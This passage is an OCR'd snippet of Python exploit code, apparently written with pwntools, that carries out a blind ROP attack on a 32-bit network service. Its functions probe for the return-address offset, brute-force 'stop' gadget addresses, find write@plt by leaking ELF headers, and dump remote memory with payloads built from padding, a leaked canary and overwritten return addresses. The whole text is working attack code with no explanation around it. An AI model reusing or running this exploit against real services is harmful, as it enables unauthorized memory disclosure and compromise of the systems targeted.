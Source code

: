 ```python
        if p.recvline()[0:3] == b'[-]':
            log.info("ra offset: %d" % offset)
            return offset
        else:  # Crash
            log.info("bad ra offset: %d" % offset)


def get_stop_addr():
    stop_addr_list = []
    # for addr in range(0x80486cf, 0x80489a0):
    go_to_recv()
    for addr in range(0x80486a0, 0x80489a0):
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset + p32(addr)

        p.send(payload)

        line = p.recvline()

        if go_to_recv(1) == b'':
            log.info("stop address: 0x%x" % addr)
            stop_addr_list.append(addr)
        #     return addr
        # else:  # Crash or not blocked
        #     log.info("bad stop address: 0x%x" % addr)
    return stop_addr_list


def get_write_plt():
    for addr in range(0x8048000, 0x8048000+0x1000):
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
        payload += p32(addr) + p32(stop_addr)
        payload += p32(1) + p32(0x8048000) + p32(0x1000)
        # payload += p32(stop_addr)

        go_to_recv(1)
        p.send(payload)

        tmp = p.recv(timeout=1)

        if tmp.startswith(b'\x7fELF'):
            print(tmp)
            log.info("write@plt address: 0x%x" % addr)
            return addr


def dump_memory(start_addr, end_addr):
    result = b''
    while start_addr < end_addr:
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
        payload += p32(write_plt) + p32(stop_addr)
        payload += p32(1) + p32(start_addr) + p32(end_addr - start_addr)

        go_to_recv()
        p.send(payload)
        data = p.recv(timeout=0.1)
        log.info("leaking: [0x%x, 0x%x] -> %s" %
                 (start_addr, start_addr + len(data), data))
        result += data
        start_addr += len(data)
    return result


'''
```
